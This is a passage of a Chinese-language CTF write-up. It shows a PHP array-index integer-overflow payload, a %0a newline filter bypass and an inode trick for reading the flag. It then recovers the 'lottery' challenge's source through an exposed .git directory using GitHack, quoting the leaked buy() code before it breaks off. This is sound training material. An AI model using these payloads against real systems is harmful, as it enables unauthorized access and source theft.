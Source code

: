 利用PHP的数组下标的一个BUG，可以利用`整型溢出`

payload

```
stuff[4294967296]=admin&stuff[1]=user&num=123456
```

![image-20220626132356734](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207071730579.png?x-oss-process=hzy)

> %0a是换行符可以进行绕过

![image-20220626132535363](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207071730649.png?x-oss-process=hzy)

![image-20220626132659282](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207071730831.png?x-oss-process=hzy)

但是这样直接读取读不出来，用inode索引节点，先寻找flag的inode

![image-20220626132809315](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207071730680.png?x-oss-process=hzy)

![image-20220626133015558](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207071730930.png?x-oss-process=hzy)



# lottery

- git源码泄露
- robots

![image-20220626133246971](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207071730750.png?x-oss-process=hzy)

![image-20220626133235488](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207071730686.png?x-oss-process=hzy)

使用 GitHack 扫描 url，成功把泄露的文件都下载下来，发现api.php

```
GitHack.py http://220.249.52.133:58698/.git/
```

```
function buy($req){
	require_registered();
	require_min_money(2);

	$money = $_SESSION['money'];
	$numbers = $req['numbers'];
	$win_numbers = random_win_nums();
	$same_count = 0;
	for($i = 0; $i < 7; $i++){
		if($numbers[$i] == $win_numbers[$i]){
			$same_count++;
		}
	}
	switch ($same_count) {
		case 2:
			$prize = 5;
			break;
		case 3:
			$prize = 20;
			break;
		case 4:
			$prize = 300;
			break;
		case 5:
			$prize = 1800;
			break;
		case 6:
```